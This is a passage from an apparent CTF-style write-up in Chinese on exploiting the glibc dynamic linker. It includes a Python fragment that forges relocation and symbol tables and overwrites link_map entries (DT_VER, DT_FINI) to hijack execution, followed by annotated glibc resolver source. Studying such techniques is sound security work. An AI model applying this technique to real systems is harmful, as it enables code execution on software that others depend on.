 

到此，我們找到能控制執行流程的目標 `l->l_info[DT_FINI]`，但是還需要做一些 setup。我們先透過製作假的 struct rela / symbol table，讓 code address 寫入到 binary 當中的某個位址，並且清除 `l->l_info[DT_VER]` 的 pointer 避免受到 versoning 影響。

```python
set_rela_table(elf64_rela(0x4100, 0x800000007, 0))
set_sym_table(elf64_sym(0, 0x12, 1, 0, e.symbols['_init'] - gotoff__Exit_write, 0))
write(binary_map.l_info(d_tag['DT_VER']), p64(0))
restore_sym_table()
restore_rela_table()
```

---

### 3. resolve function to _dl_fini of ld

在此之前需要先了解 `_dl_fixup()` 背後所呼叫的 function `_dl_lookup_symbol_x()` 以及 `do_lookup_x()`：

`_dl_fixup()` 解析完後的處理：

```c
#
// entry point
_dl_fixup()
{
    ...
    // result 回傳的會是 symbol 對應到的 link_map
    result = _dl_lookup_symbol_x (strtab + refsym->st_name, l,
                                  &defsym, l->l_scope, version,
                                  ELF_RTYPE_CLASS_PLT, flags, NULL);
    ...
    // value = result->l_addr + defsym->st_value，也就是 symbol 對應到的位址
    value = DL_FIXUP_MAKE_VALUE (result, SYMBOL_ADDRESS (result, sym, false));
    ...
    // *rel_addr = value，將 address 寫到 GOT 當中
    return elf_machine_fixup_plt (l, result, refsym, sym, reloc, rel_addr, value)
}
```

`_dl_lookup_symbol_x()`：

```c
// undef_name: symbol string, e.g. "write"
// scope: an array defining the lookup scope for this link map
lookup_t
_dl_lookup_symbol_x(const char *undef_name,
                    struct link_map *undef_map, /* 要解析的 symbol 所在的 link_map */
                    const ElfW(Sym) * *ref,
                    struct r_scope_elem *symbol_scope[],
                    const struct r_found_version *version,
                    int type_class, int flags, struct link_map *skip_map)
{
    // 產生出新的 hash value
    const uint_fast32_t new_hash = dl_new_hash(undef_name);
    unsigned long int old_hash = 0xffffffff;
    struct sym_val current_value = {NULL, NULL};
    struct r_scope_elem **scope = symbol_scope;

    // version 會傳入 GLIBC_2.2.5 的 r_found_version 結構
    // flags == 1 and DL_LOOKUP_RETURN_NEWEST == 2
    assert(version == NULL || !(flags & DL_LOOKUP_RETURN_NEWEST));

    size_t i = 0;
    // NULL
    if (__glibc_unlikely(skip_map != NULL)) { ... /* do something */}

    // 搜尋每個 scope，透過 do_lookup_x() 找對應 symbol 的 definition
```